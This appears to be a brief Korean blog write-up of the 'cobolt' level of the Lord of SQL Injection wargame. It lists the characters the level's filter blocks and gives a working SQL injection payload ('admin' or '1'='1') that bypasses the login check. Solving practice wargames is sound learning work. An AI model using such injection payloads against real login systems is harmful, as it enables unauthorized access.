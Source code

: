 ```yaml
---
title: "[LOS] cobolt"
date: 2025-03-20 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

# Payload

```
?id=admin' or '1'='1
```
